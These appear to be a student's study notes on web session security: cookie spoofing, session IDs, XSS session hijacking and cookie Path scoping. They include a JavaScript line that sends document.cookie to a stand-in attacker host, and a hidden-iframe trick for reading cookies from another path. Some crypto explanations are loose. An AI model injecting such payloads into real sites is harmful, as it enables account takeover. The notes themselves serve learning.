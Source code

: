 # Session attacks

## Session recap

- Server use cookies to implement the sessions.
- Server keeps a set of data related to a users session

## Ambient authority

Access control based on a global persistent form
Four types

1. cookies
2. IP checking
3. Built-in HTTP authentication
4. Client certificates

## Shortcoming in the [Session-2](02-cookies-sessions.md) way of storing cookies

We set the cookie as a plain text username and anyone can simply spoof this cookies on the client and sign in as some other user.

To avoid this we send a tag that is AES encrypted using a public and a private key and the browser now, along with the username cookies also sends the tag which would be used for verification. This avoids user spoofing to be someones else. And once you log-out the cookie is removed.

But in our current server approach, shortcoming is, if a malware can sniff out my cookie, now it can log-in and keep accessing even if we have logged out.

Can fix this by creating a unique sessionId associated with the session and destroy it when you logout.

### Session Hijacking via XSS

If website is vulnerable to xss, user can execute the insert the code into the webpage and can ex-filtrate the cookie.

```js
new Image().src = "https://hacker-man?cookie=" + document.cookie;
```

### Workout being set cookie with HttpOnly

As an additional layer of security, you can specify a path to your cookies
`name=xyz; Path=/a/b`

Now even if you're in the same domain, but on a diff path you won't get the cookie attached or have access to it.

We can get around this by creating an iFrame and load the target path in your page

```js
// on page .../b/c

const iframe = document.createElement("iframe");

iframe.src = ".../a/b";

document.body.append(iframe);

iframe.style.display = "none";

// then get access via

iframe.contentDocument.cookie;
```
